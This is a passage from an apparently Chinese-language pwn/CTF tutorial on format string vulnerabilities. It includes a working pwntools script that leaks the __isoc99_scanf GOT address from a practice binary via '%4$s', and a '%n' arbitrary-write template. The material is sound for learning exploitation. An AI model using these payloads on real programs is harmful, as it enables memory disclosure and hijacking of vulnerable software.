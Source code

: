 输入AAAA（因为是32位程序，四字节地址），然后使用gdb进行调试。栈布局如下所示：

![](https://cdn.jsdelivr.net/gh/thecoderalex/imgs@upload/2023/image-20231109145242079.png)

栈顶是printf的返回地址，下面则是printf的第一个参数，发现他们都指向0x14的位置，该位置数出来是printf的第5个参数，那么就相对fmt4个长度。因此，我们可以通过`%4$s`来读取地址为AAAA处的内存地址。

除了使用gdb，我们可以直接输入多个`%p`来顺序打印栈上的内容，直到我们找到`AAAA`为止。如下所示：

> 请保证输入大小够用。

![](https://cdn.jsdelivr.net/gh/thecoderalex/imgs@upload/2023/image-20231109150013241.png)

数一下，刚好是第四个%p，那么相对位置就是第四个。

现在，我们尝试输出`scanf`的地址：（32位libc中，scanf的名称为：`__isoc99_scanf`）

```python
from pwn import *
context(arch='i386',os='linux')
context.log_level='debug'
context.terminal=['tmux','splitw','-h']

elf = ELF('./stackleak')
libc = elf.libc
r = elf.process()

scanf_got = elf.got['__isoc99_scanf']

payload = flat([
    scanf_got,
    '%4$s'
])

gdb.attach(r)
r.sendline(payload)

r.recvuntil(b'%4$s\n')
leak = u32(r.recv(8)[4:8])
info(hex(leak))

r.interactive()
```

最终确实输出了scanf的实际地址：

![](https://cdn.jsdelivr.net/gh/thecoderalex/imgs@upload/2023/image-20231109151150117.png)

## 覆盖栈上内存地址

这里涉及到一个格式化字符：`%n`,不输出字符，但是把已经成功输出的字符个数写入对应的整型指针参数所指的变量。

那么参照上面的过程，我们在输入中填充一些字符即可写入对应个数的字符。

```
[addr][padding]%x$n
```
